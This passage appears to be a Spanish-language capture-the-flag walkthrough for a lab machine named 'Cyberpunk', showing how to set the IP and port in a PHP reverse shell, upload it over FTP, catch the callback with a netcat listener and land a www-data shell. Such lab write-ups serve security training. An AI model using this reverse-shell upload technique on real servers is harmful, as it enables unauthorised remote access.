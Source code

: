 Para poder usarla, necesitamos modificar los campos de la IP y del puerto para poner nuestra IP y un puerto que queramos. 

El mismo script nos lo dice:
```php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
```

Cambia esos dos datos y luego, súbelo al **servicio FTP**:
```bash
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||27786|)
150 Abriendo conexión de datos en modo BINARY para php-reverse-shell.php
100% |*****************************************************************|  5496       10.52 MiB/s    00:00 ETA
226 Transferencia completada
5496 bytes sent in 00:00 (2.29 MiB/s)
```

Bien, ahora abre una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Y, vamos a visitar en la página web la **Reverse Shell** que cargamos en el **servicio FTP**.

Revisa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.120] 34088
Linux Cyberpunk 6.1.0-20-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.85-1 (2024-04-11) x86_64 GNU/Linux
 19:17:56 up 25 min,  0 user,  load average: 2.45, 2.24, 1.47
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Listo, estamos dentro.

Ya solo haz un tratamiento de la **TTY** y tendrás una shell interactiva.

<br>

<h2 id="PHP2">Creando y Cargando Reverse Shell de PHP para Obtener Sesión de la Máquina Víctima</h2>
